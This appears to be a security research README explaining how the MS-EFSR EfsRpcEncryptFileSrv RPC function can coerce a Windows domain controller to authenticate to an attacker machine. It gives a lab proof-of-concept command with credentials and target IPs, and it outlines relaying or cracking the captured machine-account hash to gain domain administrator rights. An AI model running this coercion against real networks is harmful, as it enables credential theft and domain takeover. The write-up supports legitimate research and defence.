 # MS-EFSR - Remote call to EfsRpcEncryptFileSrv (opnum 4)

## Summary

 - **Protocol**: [[MS-EFSR]: Encrypting File System Remote (EFSRPC) Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/08796ba8-01c8-4872-9221-1000ec2eff31)

 - **Protocol UUID**: c681d488-d850-11d0-8c52-00c04fd90f7e

 - **Protocol version**: 1.0

 - **SMB Named pipe**: `\pipe\efsrpc`

 - **Function name**: [`EfsRpcEncryptFileSrv`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/0d599976-758c-4dbd-ac8c-c9db2a922d76)

 - **Function operation number**: `4`

 - **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine, usually on SMB. Then we need to connect to the remote SMB pipe `\pipe\efsrpc` and bind to the desired [`MS-EFSR`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/08796ba8-01c8-4872-9221-1000ec2eff31) protocol (with uuid `c681d488-d850-11d0-8c52-00c04fd90f7e` and version `1.0`) in order to perform remote procedure calls to functions in the [`MS-EFSR`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/08796ba8-01c8-4872-9221-1000ec2eff31) protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `\pipe\efsrpc` This pipe is connected to the protocol [[MS-EFSR]: Encrypting File System Remote (EFSRPC) Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/08796ba8-01c8-4872-9221-1000ec2eff31) and allows to call RPC functions of this protocol. We will then call the remote [`EfsRpcEncryptFileSrv`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/0d599976-758c-4dbd-ac8c-c9db2a922d76) function on the remote Windows Server (192.168.2.1) with the following parameters:

```cpp
EfsRpcEncryptFileSrv('192.168.2.51\x00')
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\share` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!


## Function technical detail

```cpp
long EfsRpcEncryptFileSrv(
   [in] handle_t binding_h,
   [in, string] wchar_t* FileName
 );
```

## References

 - Documentation of protocol [MS-EFSR]: Encrypting File System Remote (EFSRPC) Protocol: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/08796ba8-01c8-4872-9221-1000ec2eff31

 - Documentation of function `EfsRpcEncryptFileSrv`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/0d599976-758c-4dbd-ac8c-c9db2a922d76